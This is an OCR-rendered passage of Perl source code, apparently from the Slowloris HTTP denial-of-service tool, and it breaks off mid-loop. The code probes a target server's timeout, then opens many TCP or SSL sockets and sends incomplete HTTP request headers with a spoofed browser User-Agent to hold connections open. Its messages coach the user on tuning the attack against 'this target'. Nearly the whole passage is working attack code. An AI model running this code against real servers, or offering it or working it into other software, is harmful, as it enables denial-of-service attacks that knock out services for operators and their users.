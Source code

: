 else {         if (             $sock = new IO::Socket::INET(                 PeerAddr => "$host",                 PeerPort => "$port",                 Timeout  => "$tcpto",                 Proto    => "tcp",             )           )         {             $working = 1;         }     }     if ($working) {         if ($cache) {             $rand = "?" . int( rand(99999999999999) );         }         else {             $rand = "";         }         my $primarypayload =             "GET /$rand HTTP/1.1\r\n"           . "Host: $sendhost\r\n"           . "User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.503l3; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; MSOffice 12)\r\n"           . "Content-Length: 42\r\n";         if ( print $sock $primarypayload ) {             print "Connection successful, now comes the waiting game...\n";         }         else {             print "That's odd - I connected but couldn't send the data to $host:$port.\n";             print "Is something wrong?\nDying.\n";             exit;         }     }     else {         print "Uhm... I can't connect to $host:$port.\n";         print "Is something wrong?\nDying.\n";         exit;     }     for ( my $i = 0 ; $i &lt;= $#times ; $i++ ) {         print "Trying a $times[$i] second delay: \n";         sleep( $times[$i] );         if ( print $sock "X-a: b\r\n" ) {             print "\tWorked.\n";             $delay = $times[$i];         }         else {             if ( $SIG{__WARN__} ) {                 $delay = $times[ $i - 1 ];                 last;             }             print "\tFailed after $times[$i] seconds.\n";         }     }      if ( print $sock "Connection: Close\r\n\r\n" ) {         print "Okay that's enough time. Slowloris closed the socket.\n";         print "Use $delay seconds for -timeout.\n";         exit;     }     else {         print "Remote server closed socket.\n";         print "Use $delay seconds for -timeout.\n";         exit;     }     if ( $delay &lt; 166 ) {         print &lt;&lt;EOSUCKS2BU; Since the timeout ended up being so small ($delay seconds) and it generally  takes between 200-500 threads for most servers and assuming any latency at  all...  you might have trouble using Slowloris against this target.  You can  tweak the -timeout flag down to less than 10 seconds but it still may not  build the sockets in time. EOSUCKS2BU     } } else {     print "Connecting to $host:$port every $timeout seconds with $connections sockets:\n";      if ($usemultithreading) {         domultithreading($connections);     }     else {         doconnections( $connections, $usemultithreading );     } }  sub doconnections {     my ( $num, $usemultithreading ) = @_;     my ( @first, @sock, @working );     my $failedconnections = 0;     $working[$_] = 0 foreach ( 1 .. $num );    #initializing     $first[$_]   = 0 foreach ( 1 .. $num );    #initializing     while (1) {         $failedconnections = 0;         print "\t\tBuilding sockets.\n";         foreach my $z ( 1 .. $num ) {             if ( $working[$z] == 0 ) {                 if ($ssl) {                     if (                         $sock[$z] = new IO::Socket::SSL(                             PeerAddr => "$host",                             PeerPort => "$port",                             Timeout  => "$tcpto",                             Proto    => "tcp",                         )                       )                     {                         $working[$z] = 1;                     }                     else {                         $working[$z] = 0;                     }                 }                 else {                     if (                         $sock[$z] = new IO::Socket::INET(                             PeerAddr => "$host",                             PeerPort => "$port",                             Timeout  => "$tcpto",                             Proto    => "tcp",                         )                       )                     {                         $working[$z] = 1;                         $packetcount = $packetcount + 3;  #SYN, SYN+ACK, ACK                     }                     else {                         $working[$z] = 0;                     }                 }                 if ( $working[$z] == 1 ) {                     if ($cache) {                         $rand = "?" . int( rand(99999999999999) );                     }                     else {                         $rand = "";                     }                     my $primarypayload =                         "$method /$rand HTTP/1.1\r\n"                       . "Host: $sendhost\r\n"                       . "User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.503l3; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; MSOffice 12)\r\n"                       . "Content-Length: 42\r\n";                     my $handle = $sock[$z];                     if ($handle) {                         print $handle "$primarypayload";                         if ( $SIG{__WARN__} ) {                             $working[$z] = 0;                             close $handle;                             $failed++;                             $failedconnections++;                         }                         else {                             $packetcount++;                             $working[$z] = 1;                         }                     }                     else {                         $working[$z] = 0;                         $failed++;                         $failedconnections++;                     }                 }                 else {                     $working[$z] = 0;                     $failed++;                     $failedconnections++;                 }             }         }         print "\t\tSending data.\n";         foreach my $z ( 1 .. $num ) {             if (